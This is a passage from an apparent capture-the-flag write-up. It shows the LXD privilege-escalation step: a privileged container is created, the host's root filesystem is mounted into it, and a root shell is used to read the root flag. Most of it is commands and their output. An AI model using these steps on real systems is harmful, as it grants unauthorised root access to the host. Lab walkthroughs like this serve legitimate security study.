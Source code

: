 ```bash
Would you like to use an existing empty block device (e.g. a disk or partition)? (yes/no) [default=no]: 
Size in GB of the new loop device (1GB minimum) [default=5GB]: 
Would you like to connect to a MAAS server? (yes/no) [default=no]: 
Would you like to create a new local network bridge? (yes/no) [default=yes]: 
What should the new bridge be called? [default=lxdbr0]: 
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: 
Would you like the LXD server to be available over the network? (yes/no) [default=no]: 
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] 
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: 
first@first:~$ lxc init myimage mycontainer -c security.privileged=true
Creating mycontainer
first@first:~$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to mycontainer
first@first:~$ lxc start mycontainer
first@first:~$ lxc exec mycontainer /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /root
~ # ls
```
## Root Flag
```bash
~ # cd /mnt
/mnt # ls
root
/mnt # cd root/
/mnt/root # ls
bin         dev         home        lib32       libx32      media       opt         root        sbin        srv         sys         usr
boot        etc         lib         lib64       lost+found  mnt         proc        run         snap        swap.img    tmp         var
/mnt/root # cd root/
/mnt/root/root # ls
r00t.txt  snap
/mnt/root/root # 
```
